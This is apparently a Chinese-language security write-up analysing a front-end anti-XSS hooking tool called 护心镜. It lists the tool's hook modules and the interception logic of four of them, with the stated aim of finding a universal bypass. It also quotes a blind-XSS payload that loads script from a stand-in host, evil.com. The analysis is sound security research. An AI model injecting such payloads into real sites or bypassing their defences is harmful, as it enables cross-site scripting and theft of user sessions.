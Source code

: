 举个例子：当一个 XSSer 对某后台进行盲打时，嵌入了一串代码：

```
<script src=//evil.com/evil.js></script>

```

当管理员登录后台时候触发了这串代码，由于加载了“evil.com”这个未知域名的 js 脚本，护心镜弹出危险警告，在用户确认后对脚本进行阻拦。

从之后的代码分析中了解，HOOK 函数实现了以下功能：

| 模块 | 功能 |
| --- | --- |
| Hook_CreateElement | 对 CreateElement 方法进行 Hook |
| Hook_Image | 对Image对象产生的实例进行 Setter 和 Getter 的 Hook |
| Hook_Source | 对页面 DOM 进行监控，对新生成的标签进行来源检测 |
| Hook_Attribute | 对元素的 setAttribute 方法进行 Hook |
| Hook_Element | 对元素的 Setter 和 Getter 进行 Hook |
| Hook_Cookie | 对 Cookie 的读写接口进行了 Hook |
| Hook_Xsstester | 对常见的 alert、prompt 方法等进行 Hook |
| Hook_CSRFWebshell | 对通过 CSRF 上传 Webshell 进行拦截 |
| Send | 对护心镜接口发送报告 |

0x02 快速寻找通杀之法
=====

扫一遍代码，发现每个模块都有相应的弱点，但在那之前，

每个人都想知道快速通杀所有模块的方法，那么如何快速找到通杀方法？

最好的方式是看看他们有什么共通点：

（由于只有4个模块涉及拦截，那么就看看他们是怎么实现的）

```
+ Hook_CreateElement
  1. 重写document.createElement
  2. 重写createElement创建元素的setter和getter
  3. 对Setter进行tag（标签）匹配，然后通过Check_domain进行白名单匹配
  4. 通过confirm通知，确定是否拦截
+ Hook_Image
  1. 重写Image
  2. 重写new Image 对象的getter和setter
  3. Check_domain白名单匹配
  4. 通过confirm通知，确定是否拦截
  5. 若不拦截：通过this.setAttribute实现 Setter 的赋值
+ Hook_Source
  1. 通过 MutationObserver 对 DOM 进行监听
  2. 一旦 DOM 发生变化，对新增 Nodes（节点）进行校验
  3. 通过tag匹配和Check_domain白名单匹配
  4. 通过confirm通知，确定是否拦截
  5. 若拦截则删除该节点，否则放行
+ Hook_CSRFWebshell
  1. 重写 XMLHttpRequest.prototype.send
  2. 正则匹配白名单
  3. 通过confirm通知，确定是否拦截

```
